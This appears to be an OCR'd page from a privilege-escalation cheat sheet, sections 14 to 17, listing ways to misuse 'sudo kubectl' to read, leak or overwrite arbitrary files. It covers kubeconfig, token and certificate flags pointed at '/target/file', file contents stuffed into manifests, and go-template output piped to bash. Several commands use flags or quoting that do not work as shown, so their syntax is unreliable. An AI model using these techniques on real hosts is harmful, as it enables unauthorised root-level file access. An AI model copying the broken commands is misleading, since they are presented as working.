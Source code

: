 
## 14. Kubectl Internal Mechanisms

```bash
sudo kubectl --cache-dir=/target/dir get pods
sudo kubectl --kubeconfig=<(cat /target/file) version
sudo kubectl --token-file=/target/file version
sudo kubectl --client-certificate=/target/file version
```

---

## 15. Resource Generator Abuse

```bash
sudo kubectl create job test --image=busybox --dry-run=client --from-file=/target/file
sudo kubectl create deployment test --image=nginx --dry-run=client -o yaml | sed 's/nginx/$(cat \/target\/file)/'
sudo kubectl create sa test --dry-run=client -o yaml --token=/target/file
```

---

## 16. Manifest Processing Beyond YAML

```bash
# JSON
echo '{"apiVersion":"v1","data":' > /tmp/pre
cat /target/file >> /tmp/pre
echo '}' >> /tmp/pre
sudo kubectl apply -f /tmp/pre --dry-run=client

# Multi-doc
echo '---' > /tmp/multi
cat /target/file >> /tmp/multi
echo '---' >> /tmp/multi
sudo kubectl apply -f /tmp/multi --dry-run=client

# stdin
cat /target/file | sudo kubectl apply -f -
```

---

## 17. Output Redirection & Templating

```bash
sudo kubectl create cm test --from-literal=data='{{.}}' --dry-run=client -o go-template='{{.data}}' | bash

sudo kubectl version > /target/writable/location
sudo kubectl config view > /proc/self/fd/1
```

---